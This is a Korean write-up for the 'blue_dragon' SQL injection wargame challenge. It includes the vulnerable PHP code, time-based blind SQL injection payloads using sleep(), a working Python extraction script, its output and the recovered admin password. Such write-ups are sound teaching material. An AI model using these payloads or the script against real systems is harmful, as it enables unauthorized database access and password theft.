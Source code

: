 # blue_dragon

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- 쿼리 실행 뒤에, `' \`를 필터링한다.
- 정확한 admin pw를 알아내야 한다.   

## 3. Solution
위 조건에서 언급했듯이 `' \`필터링은 쿼리 실행 후에 이루어 진다.   
이러한 취약점 속에 우리는 sleep함수를 통한 blind-sqli를 시도해 볼수 있다.   

구문의 구조는 다음과 같다.   
```sql
id='' or if(id='admin' and length(pw)=i, sleep(2), 1)#
id='' or if(id='admin' and ascii(substr(pw,i,1))=j, sleep(2), 1)#
```

if문 속 조건문이 참이라면 `sleep(2)`를 실행시킨다.    
이를 통해 페이지 지연시간을 계산하여 blind-sqli를 시도해 보았다.   


코드속 url을 입력하면 소요시간을 반환하는 함수 `delay_chk`를 만들었다.   
```python
def delay_chk(url):
    start_time = time.time()
    res = requests.get(url, cookies=cookie)
    if res.status_code == 200:
        end_time = time.time()
        return end_time - start_time
    else:
        return 0
```    

이후, 길이와 값을 구하는 코드를 추가하여 스크립트를 완성하였다.   
```python
import requests
import time

cookie = {'PHPSESSID' : '~~~~'}

def delay_chk(url):
    start_time = time.time()
    res = requests.get(url, cookies=cookie)
    if res.status_code == 200:
        end_time = time.time()
        return end_time - start_time
    else:
        return 0
    
for i in range(1,100):
    url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php?id=' or if(id='admin' and length(pw)=%d, sleep(2), 1)%%23" % i
    print("%d ... " % i, end="")
    
    if(delay_chk(url) >= 2):
        pw_len = i
        print("O")
        print("\n======================")
        print("admin pw length  |  %d" % pw_len)
        print("======================\n")
        break
    
    else:
        print("X")
        

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php?\
                id=' or if(id='admin' and ascii(substr(pw,%d,1))=%d, sleep(2), 1)%%23" % (i+1, j)

        if delay_chk(url) >= 2:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
            

print("\n======================")
print("admin pw  |  %s" % pw_value)
print("======================\n")
```   

스크립트 실행 결과는 다음과 같다.   

```
1 ... X
2 ... X
3 ... X
4 ... X
5 ... X
6 ... X
7 ... X
8 ... O

======================
admin pw length  |  8
======================

pw(1) : d
pw(2) : d9
pw(3) : d94
pw(4) : d948
pw(5) : d948b
pw(6) : d948b8
pw(7) : d948b8a
pw(8) : d948b8a0

======================
admin pw  |  d948b8a0
======================

```   


최종적으로 위 값을 `pw`로 넣어주면 문제가 해결된다.   

변수명 | 값
---|---
`pw` | d948b8a0